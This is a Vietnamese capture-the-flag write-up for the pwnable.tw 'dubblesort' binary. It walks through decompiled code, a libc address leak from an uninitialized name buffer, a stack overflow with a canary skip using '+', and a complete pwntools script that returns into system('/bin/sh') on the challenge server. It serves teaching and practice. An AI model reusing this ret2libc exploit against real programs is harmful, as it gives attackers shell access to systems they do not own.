



**1. TÌm lỗi**

Dùng lệnh `file` kiếm tra:

```
dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped
```

---> Mở bằng IDA ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  _BYTE *v4; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int v8; // [esp+18h] [ebp-74h] BYREF
  _BYTE v9[32]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int v11; // [esp+7Ch] [ebp-10h]

  v11 = __readgsdword(0x14u);
  sub_8B5();
  __printf_chk(1, "What your name :");
  read(0, buf, 0x40u);
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &v8);
  v3 = v8;
  if ( v8 )
  {
    v4 = v9;
    for ( i = 0; i < v8; ++i )
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      v3 = v8;
      v4 += 4;
    }
  }
  sub_931(v9, v3);
  puts("Result :");
  if ( v8 )
  {
    for ( j = 0; j < v8; ++j )
      __printf_chk(1, "%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v11 )
    sub_BA0();
  return result;
}
```

- Đầu tiên, các biến được khai báo. v3 và v8 là các biến kiểu unsigned int, v4 là một con trỏ kiểu _BYTE, i và j là các biến kiểu unsigned int được sử dụng trong vòng lặp, result là biến kết quả kiểu int. v9 là một mảng kiểu _BYTE có độ dài 32 byte được sử dụng để lưu trữ các số cần sắp xếp, buf là một mảng kiểu char có độ dài 64 byte được sử dụng để lưu trữ tên người dùng nhập vào.

- Chương trình yêu cầu người dùng nhập tên bằng cách sử dụng hàm __printf_chk để in ra màn hình console. Sau đó, hàm read được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào biến buf. Ở đây biến `buf` chưa được khởi tạo nên lúc nhập vào sẽ không có nyte NULL và khi in ra sử dụng `%s` thì đến khi nào gặp byte null thì dừng.

- Tiếp theo, chương trình yêu cầu người dùng nhập số lượng số cần sắp xếp. Hàm __printf_chk được sử dụng để in ra màn hình console và hàm __isoc99_scanf được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào biến v8.

- Nếu v8 khác 0, chương trình sẽ yêu cầu người dùng nhập các số cần sắp xếp. Với mỗi số, hàm __printf_chk được sử dụng để hiển thị thông báo cho người dùng nhập số cần sắp xếp, hàm fflush được sử dụng để xóa bộ đệm đầu ra và hàm __isoc99_scanf được sử dụng để đọc dữ liệu đầu vào từ bàn phím và lưu trữ vào mảng v9. Lúc này có thể nhập quá số phần tử cho phép trong mảng -> Có lỗi bof.

- Sau khi các số đã được nhập, chương trình sẽ gọi hàm sub_931 để sắp xếp các số đó.

- Cuối cùng, kết quả sắp xếp sẽ được hiển thị trên màn hình console. Hàm puts được sử dụng để hiển thị thông báo cho người dùng và vòng lặp for được sử dụng để in ra các số đã sắp xếp.

Dùng lệnh `checksec` kiểm tra:

```
[*] '/mnt/d/CTF_Writeup/pwnable/dubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Canyry cũng đã được bật.

**2. Ý tưởng**

- Ở lỗi đầu tiên có thể leak được địa chỉ libc và từ đó gọi hàm `system`

- Ở lỗi thứ 2 có thể tính toán địa chỉ `canary` cách mảng đó bao nhiêu và nhập dấu + thì địa chỉ canary sẽ được được nguyên.

**3. Khai thác**

Đặt breakpoint sau hàm `__printf_chk` thứ 2 để xem dữ liệu xung quanh biến buf như thế nào.



Vì không truyền biến vào %s nên tìm ở địa chỉ cách 24 byte có chứa 1 địa chỉ trong dải libc nên khi mình mình nhập 24 byte rác thì sẽ có thể leak được.

```
payload = b'a'*24
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
```

Thử chạy nên kiểm tra lại xem sao thì thấy có byte null ở libc



Nên ghi đè 1 byte rác rồi sau đó trừ đúng giá trị byte rác đó sẽ được giá trị libc

```
payload = b'a'*25
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
libc.address = leak - 0x61 - 0x1b0000
log.info("libc base: " + hex(libc.address))
```

 Ta thấy địa chỉ canary cách mảng v9 0x18 byte hay 24 byte. Nên nếu nhập dấu + ở vị trí 24 thì giá trị canary sẽ được giữ nguyên.

 Tiếp theo đi tìm địa chỉ hàm `system` và chuỗi `/bin/sh`:

 ```
 audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/pwnable/dubblesort$ readelf -s libc_32.so.6 | grep system
  1457: 0003a940    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
audwc28@DESKTOP-8SF73V1:/mnt/d/CTF_Writeup/pwnable/dubblesort$ strings libc_32.so.6 -tx | grep "/bin/sh"
 158e8b /bin/sh
 ```

Như vậy đưa thứ tự 24 byte rác + '+' + 4 byte rác + system + bin_sh

Đặt breakpoint ở `ret` để xem có trả về sysrem không.



Như vậy chương trình đã trả về hàm `system` như mình mong muốn. ta có script như sau:

 ```
from pwn import *

exe = ELF('dubblesort_patched', checksec = False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10101)
libc = ELF('libc_32.so.6', checksec = False)

#input()
payload = b'a'*25
r.sendafter(b'name :', payload)
r.recvuntil(b'a'*24)
leak = u32(r.recv(4))
log.info("leak address: " + hex(leak))
libc.address = leak - 0x61 - 0x1b0000
log.info("libc base: " + hex(libc.address))

system = libc.sym['system']
log.info("system: " + hex(system))
bin_sh = next(libc.search(b'/bin/sh'))


r.sendlineafter(b'sort :', b'35')
for i in range(24):
  r.sendlineafter(b'number : ', b'1')
r.sendlineafter(b'number : ', b'+')
for i in range(8):
  r.sendlineafter(b'number : ', str(system))
r.sendlineafter(b'number : ', str(bin_sh))
r.sendlineafter(b'number : ', str(bin_sh))

r.interactive()
``` 

**4. Lấy flag**

